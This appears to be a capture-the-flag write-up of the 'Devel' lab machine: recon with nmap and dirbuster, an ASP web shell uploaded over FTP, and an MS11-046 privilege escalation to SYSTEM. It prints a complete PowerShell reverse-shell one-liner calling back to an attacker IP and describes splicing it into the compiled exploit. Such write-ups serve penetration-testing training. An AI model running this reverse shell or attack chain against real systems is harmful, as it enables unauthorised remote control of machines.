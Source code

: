 ```yaml
---
layout: default
---
```


# Devel

Let's get to work on the machine Devel.

![](./01.png)

Like normal, we'll kick off ```nmap``` against the system to see what's out there.

![](./02.png)

Looks like we have FTP and HTTP responding.  Let's see what the web interface is serving up.

![](./03.png)

Looks like it's a default IIS7 webpage.  Let's load up ```dirbuster``` to see if we can find any directories or files.

![](./04.png)

![](./05.png)

It looks like it's finding a lot of garbage that probably isn't going to be useful to us.  Let's try hitting one of pages listed to see what comes back.

![](./06.png)

We get a server error page.  We'll have to keep that in mind in case it comes in useful later.

Let's take a look to see what's on the FTP share.

![](./07.png)

Looks like it's sharing out the IIS7 default page's directory.

Let's grab a web shell off GitHub, and upload it to FTP share.  We'll use https://github.com/tennc/webshell/blob/master/asp/webshell.asp for this.

Let's upload it to the FTP share.

![](./08.png)

Now, let's load the webshell in our browser.

![](./09.png)

Looks to be working, so let's setup a ```netcat``` listener so we can connect back to ourselves.

![](./10.png)

We'll use powershell to create the connection.  Specifically, we're using the following, then encoded into base64 UTF-16LE, so that we can pass it in the webshell:

>```powershell
>$client = New-Object System.Net.Sockets.TCPClient("192.168.0.53",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
>```
![](./11.png)

The page is hanging as expected, so let's check our listener.

![](./12.png)

Looking good, now let's kill the IIS worker process, so it restarts, causing the webshell to be useable again, giving us a way to kick off PowerShell again in case something hangs our shell.

![](./13.png)

Let's run ```systeminfo``` to get some more info on this machine.

![](./14.png)

Now let's download Windows PrivEsc Check (https://github.com/pentestmonkey/windows-privesc-check) and copy the executable to the FTP share.

![](./15.png)

Now in the webshell we'll run ```c:\inetpub\wwwroot\windows-privesc-check2.exe --audit -a -V -o c:\inetpub\wwwroot\results```

![](./16.png)

This will hang the page long enough we will get a 500 internal server error, this is fine.

We'll just watch the FTP share until we see the results files are generated.

![](./17.png)

We'll then open the ```results.html``` page.

![](./18.png)

If we look through the results, we'll see that the machine is vulnerable to MS11-046.

We'll copy the code from https://www.exploit-db.com/exploits/40564 and open ```vi``` with a file named ```MS11-046.c```.

![](./19.png)

Now we'll paste in the code, but we'll want to change the following line from ```"c:\\windows\\system32\\cmd.exe /K cd c:\\windows\\system32"``` to ```C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\Powershell -encodedCommand``` pasting the base64 code from earlier after ```-encodedCommand```.

![](./20.png)

This allow us to have the exploit call back to us, as if we tried to run it before, it would spawn ```cmd.exe```, but not interactively.

We'll then save the file.

To compile this executable, we'll have to install ```gcc-mingw-w64-i686```.

![](./21.png)

Once it's installed, let's compile the code.

![](./22.png)

We'll drop a copy of the file into the FTP share.

![](./23.png)

Then we'll browse to ```wwwroot```, where the file lives.

![](./24.png)

From there, we'll copy it from ```C:\inetpub\wwwroot``` over to ```C:\temp```.

![](./25.png)

Now we'll kick off a listener again.

![](./26.png)

With the listener up, let's launch our exploit, and verify it escalated us to the ```system``` account in our reverse shell.

![](./27.png)

Escalation looks good, so let's grab the flags.

![](./28.png)

That's a wrap.

___

[Back](../)
